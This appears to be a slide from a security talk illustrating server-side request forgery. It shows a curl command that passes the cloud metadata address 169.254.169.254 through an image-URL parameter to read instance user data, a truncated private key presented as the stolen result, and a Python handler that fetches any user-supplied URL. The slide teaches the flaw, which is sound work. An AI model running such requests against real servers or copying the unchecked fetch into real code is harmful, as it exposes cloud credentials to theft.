

# SSRF Example

Server-Side Image Caching
Stealing Instance User Data
$ curl duo.com?img_url=169.254.169.254/latest/user-data
DEPLOY_PRIVATE_KEY = '''\
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAu/JhMBoH+XQfMMAVj23h
n2VHa2HeDJi3FLri3Be5Ky/qZPSCdZdlX50+xrrZ
…..
FoPRXT7zgepKBVzf7+m1PxViHJxthPw/p0BVbc
6OVA==
-----END RSA PRIVATE KEY-----
'''
# pull the user’s profile image to # cache for later usage
def image_request_handler(img_url):
    resp = requests.get(img_url)
    return resp.data